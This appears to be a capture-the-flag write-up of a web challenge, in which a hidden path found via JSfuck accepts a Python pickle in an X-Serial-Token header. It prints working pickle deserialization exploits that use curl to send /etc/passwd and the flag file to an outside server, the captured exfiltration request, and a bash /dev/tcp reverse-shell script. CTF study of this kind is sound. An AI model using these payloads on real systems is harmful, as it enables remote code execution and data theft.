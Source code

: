 This challenge first presents a simple JSfuck task to retrieve the secret path: **/t0p_s3cr3t_p4g3_7_7**

The response provides a hint to use the `X-Serial-Token` to inject a serialized object, specifically a Python pickle, in order to read the contents of a file.

To read one file's content. I can use this script:
```py
import pickle
import os
import base64

class Exploit:
    def __reduce__(self):
        return (os.system, ("curl -G --data-urlencode @/etc/passwd https://my-sever",))

payload = pickle.dumps(Exploit())
encoded_payload = base64.b64encode(payload).decode()

print(encoded_payload)
```
The captured request is as follows:
```
GET /?root%3ax%3a0%3a0%3aroot%3a%2froot%3a%2fbin%2fbash%0adaemon%3ax%3a1%3a1%3adaemon%3a%2fusr%2fsbin%3a%2fusr%2fsbin%2fnologin%0abin%3ax%3a2%3a2%3abin%3a%2fbin%3a%2fusr%2fsbin%2fnologin%0asys%3ax%3a3%3a3%3asys%3a%2fdev%3a%2fusr%2fsbin%2fnologin%0async%3ax%3a4%3a65534%3async%3a%2fbin%3a%2fbin%2fsync%0agames%3ax%3a5%3a60%3agames%3a%2fusr%2fgames%3a%2fusr%2fsbin%2fnologin%0aman%3ax%3a6%3a12%3aman%3a%2fvar%2fcache%2fman%3a%2fusr%2fsbin%2fnologin%0alp%3ax%3a7%3a7%3alp%3a%2fvar%2fspool%2flpd%3a%2fusr%2fsbin%2fnologin%0amail%3ax%3a8%3a8%3amail%3a%2fvar%2fmail%3a%2fusr%2fsbin%2fnologin%0anews%3ax%3a9%3a9%3anews%3a%2fvar%2fspool%2fnews%3a%2fusr%2fsbin%2fnologin%0auucp%3ax%3a10%3a10%3auucp%3a%2fvar%2fspool%2fuucp%3a%2fusr%2fsbin%2fnologin%0aproxy%3ax%3a13%3a13%3aproxy%3a%2fbin%3a%2fusr%2fsbin%2fnologin%0awww-data%3ax%3a33%3a33%3awww-data%3a%2fvar%2fwww%3a%2fusr%2fsbin%2fnologin%0abackup%3ax%3a34%3a34%3abackup%3a%2fvar%2fbackups%3a%2fusr%2fsbin%2fnologin%0alist%3ax%3a38%3a38%3aMailing+List+Manager%3a%2fvar%2flist%3a%2fusr%2fsbin%2fnologin%0airc%3ax%3a39%3a39%3aircd%3a%2frun%2fircd%3a%2fusr%2fsbin%2fnologin%0a_apt%3ax%3a42%3a65534%3a%3a%2fnonexistent%3a%2fusr%2fsbin%2fnologin%0anobody%3ax%3a65534%3a65534%3anobody%3a%2fnonexistent%3a%2fusr%2fsbin%2fnologin%0actfuser%3ax%3a1000%3a1000%3a%3a%2fhome%2fctfuser%3a%2fbin%2fsh%0a HTTP/1.1
Host: em4judd6e65q353ovx5r0yz3full9bx0.oastify.com
User-Agent: curl/7.88.1
```

To perform remote code execution (RCE), I first redirect the output of my command to a file, and then read it. For this, I used two scripts:
```py
return (os.system, ("echo $(ls -la) > /tmp/output.txt",))
```
```py
return (os.system, ("curl -G --data-urlencode @/tmp/output.txt https://my-sever",))
```
Which return:
```
total 936
dr-xr-xr-x 1 ctfuser ctfuser   4096 Feb 16 03:19  ./
drwxr-xr-x 1 root    root      4096 Feb 16 03:20  ../
-r-xr-xr-x 1 ctfuser ctfuser    331 Feb 16 03:18  Dockerfile
-r-xr-xr-x 1 ctfuser ctfuser     40 Jan  5 13:12  FLAG
-r-xr-xr-x 1 ctfuser ctfuser    199 Feb 16 03:19  Makefile
-r-xr-xr-x 1 ctfuser ctfuser     13 Dec 22 18:28  README.md
-r-xr-xr-x 1 ctfuser ctfuser   1571 Feb 16 02:46  main.py
-r-xr-xr-x 1 ctfuser ctfuser 909879 Feb 16 03:16  output.zip
-r-xr-xr-x 1 ctfuser ctfuser    109 Feb 16 02:37  requirements.txt
dr-xr-xr-x 1 ctfuser ctfuser   4096 Jan  2 13:06  static/
-r-xr-xr-x 1 ctfuser ctfuser    383 Feb 16 03:14  temp.py
dr-xr-xr-x 1 ctfuser ctfuser   4096 Jan  2 13:25  templates/
```
Finally, I made the following request to retrieve the flag:
```
GET /t0p_s3cr3t_p4g3_7_7 HTTP/1.1
Host: chall.ehax.tech:8008
X-Serial-Token: gASVcQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFZjdXJsIC1HIC0tZGF0YS11cmxlbmNvZGUgZGF0YUBGTEFHIGh0dHA6Ly9lbTRqdWRkNmU2NXEzNTNvdng1cjB5ejNmdWxsOWJ4MC5vYXN0aWZ5LmNvbZSFlFKULg==
```

Flag:
```
E4HX{oh_h3l1_n44www_y0u_8r0k3_5th_w4l1}
```

Excellent reverse shell for this challenge:
```py
import pickle
import base64
import os
import requests

class RCE:
    def __reduce__(self):
        return (os.system, ("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER IP/8008 0>&1'",))

payload = pickle.dumps(RCE())
encoded_payload = base64.b64encode(payload).decode()

headers = {"X-Serial-Token": encoded_payload}


response = requests.get("http://chall.ehax.tech:8008/t0p_s3cr3t_p4g3_7_7", headers=headers)
print(response.text)
```
